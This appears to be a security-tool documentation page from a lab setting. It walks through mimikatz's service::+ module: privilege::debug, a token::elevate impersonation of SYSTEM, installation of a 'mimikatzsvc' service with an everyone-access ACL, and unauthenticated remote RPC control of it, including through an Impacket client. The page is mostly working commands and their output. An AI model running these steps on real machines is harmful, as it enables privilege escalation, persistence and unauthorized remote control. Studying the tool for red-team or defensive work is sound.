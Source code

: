 # +

`service::+` installs `mimikatzsvc` by issuing `rpc::server service::me exit`.

```
mimikatz # privilege::debug
Privilege '20' OK
```

```
mimikatz # token::elevate
Token Id  : 0
User name :
SID name  : NT AUTHORITY\SYSTEM

752     {0;000003e7} 0 D 44299          NT AUTHORITY\SYSTEM     S-1-5-18        (04g,31p)       Primary
 -> Impersonated !
 * Process Token : {0;002cfce0} 4 F 118309013   hacklab\m3g9tr0n        S-1-5-21-2725560159-1428537199-2260736313-1730  (13g,24p)       Primary
 * Thread Token  : {0;000003e7} 0 D 118617400   NT AUTHORITY\SYSTEM     S-1-5-18        (04g,31p)       Impersonation (Delegation)
```

```
mimikatz # service::+
[*] 'mimikatzsvc' service not present
[+] 'mimikatzsvc' service successfully registered
[+] 'mimikatzsvc' service ACL to everyone
[+] 'mimikatzsvc' service started
```

![Successful installation of mimikatzsvc](../../../.gitbook/assets/2.png)

The same methods as demonstrated on the `rpc::connect` section can be used to authenticate, without providing a username and password, over RPC:

```
mimikatz # rpc::connect /remote:192.168.0.10 /noauth
[rpc] Remote   : 192.168.0.10
[rpc] ProtSeq  : ncacn_ip_tcp
[rpc] Endpoint : (null)
[rpc] Service  : (null)
[rpc] AuthnSvc : NONE (0)
[rpc] NULL Sess: no
Algorithm: CALG_3DES (00006603)
Endpoint resolution is OK
mimikatz is bound!

mimikatz # *hostname
Win10.hacklab.local (WIN10)
```

```
# python3 mimikatz.py 192.168.0.10
Impacket v0.9.24.dev1+20210928.152630.ff7c521a - Copyright 2021 SecureAuth Corporation


  .#####.   mimikatz RPC interface
 .## ^ ##.  "A La Vie, A L' Amour "
 ## / \ ##  /* * *
 ## \ / ##   Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 '## v ##'   http://blog.gentilkiwi.com/mimikatz             (oe.eo)
  '#####'    Impacket client by Alberto Solino (@agsolino)    * * */


Type help for list of commands
mimikatz # hostname
Win10.hacklab.local (WIN10)
```
